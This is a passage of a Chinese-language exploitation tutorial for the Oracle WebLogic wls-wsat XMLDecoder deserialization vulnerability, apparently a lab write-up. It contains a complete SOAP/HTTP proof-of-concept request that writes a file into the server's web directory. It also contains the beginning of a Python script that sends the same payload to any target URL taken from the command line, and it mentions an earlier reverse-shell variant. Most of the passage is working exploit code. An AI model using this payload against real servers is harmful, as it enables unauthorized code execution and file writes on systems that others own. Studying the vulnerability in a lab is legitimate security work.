 **![image-20210404005549131](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404005549131.png)**

##### **方法二、**

**1、扫漏洞与之前相同，只不过在构造POC时之前的是利用反弹shell，这里是将其写入txt中直接去访问txt文件。POC如下：**

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.58.128:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 675

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```

**2、访问http://192.168.58.128:7001/wls-wsat/test.txt	漏洞利用成功。**

**3、尝试使用Python脚本验证**

```python
#!/usr/bin/env python
# coding:utf-8
 
import requests
from sys import argv
 
headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Upgrade-Insecure-Requests': '1',
    'Content-Type': 'text/xml'
    }
def Webogic_XMLDecoder_poc(url):
    #url="http://192.168.8.148:7001"
    posturl=url+'/wls-wsat/CoordinatorPortType'
    data = '''
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter">
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
```